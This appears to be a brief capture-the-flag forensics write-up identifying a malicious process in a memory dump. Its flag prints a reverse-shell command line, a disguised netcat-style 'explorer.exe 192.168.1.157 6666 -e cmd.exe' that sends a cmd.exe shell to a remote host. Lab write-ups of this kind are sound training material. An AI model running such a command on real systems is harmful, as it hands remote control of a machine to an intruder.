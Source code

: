# Commands
![](../../assets/forensics/commands_1.png)
[Zip File](../../assets/forensics/mem.raw) 
Please before look to [Captured Memories](Forensics/Captured%20Memories/index.md)
From [cmdline output](../../assets/forensics/cmdline.txt) we can easily  see 
process `3100` use process `5448`'s  malicious explorer.exe.
![](../../assets/forensics/commands_2.png)


Flag: `flag{explorer.exe  192.168.1.157 6666 -e cmd.exe}` 